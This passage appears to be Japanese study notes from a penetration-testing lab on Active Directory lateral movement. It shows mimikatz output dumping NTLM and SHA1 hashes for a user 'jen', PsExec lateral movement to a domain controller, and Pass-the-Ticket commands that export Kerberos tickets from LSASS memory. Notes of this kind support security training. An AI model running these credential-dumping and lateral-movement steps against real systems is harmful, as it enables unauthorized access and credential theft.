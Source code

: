 一度もドメインに繋いでいない場合は上記エラーとなるため、ドメインコントローラ上のネットワーク共有に接続してTGTを生成する

```powershell
net use \\dc01

#再度確認する
klist

...
Authentication Id : 0 ; 1142030 (00000000:00116d0e)
Session           : Interactive from 0
User Name         : jen
Domain            : CORP
Logon Server      : DC1
Logon Time        : 2/27/2023 7:43:20 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1124
        msv :
         [00000003] Primary
         * Username : jen
         * Domain   : CORP
         * NTLM     : 369def79d8372408bf6e93364cc93075
         * SHA1     : faf35992ad0df4fc418af543e5f4cb08210830d4
         * DPAPI    : ed6686fedb60840cd49b5286a7c08fa4
        tspkg :
        wdigest :
         * Username : jen
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : jen
         * Domain   : CORP.COM
         * Password : (null)
        ssp :
        credman :
...
```

TGTとTGSが登録される

PsExecで横展開する

```powershell
PsExec.exe \\dc01 cmd.exe
```




### Pass the Ticket

別ユーザのTGSを取得し利用する手法

メモリ上のLSASSプロセス空間を解析して任意のTGT/TGSを探し、kirbi mimikatz形式でディスクに保存する

```cmd
mimikatz #privilege::debug
Privilege '20' OK

mimikatz #sekurlsa::tickets /export

Authentication Id : 0 ; 2037286 (00000000:001f1626)
Session           : Batch from 0
User Name         : dave
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/14/2022 6:24:17 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1103

         * Username : dave
```

[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname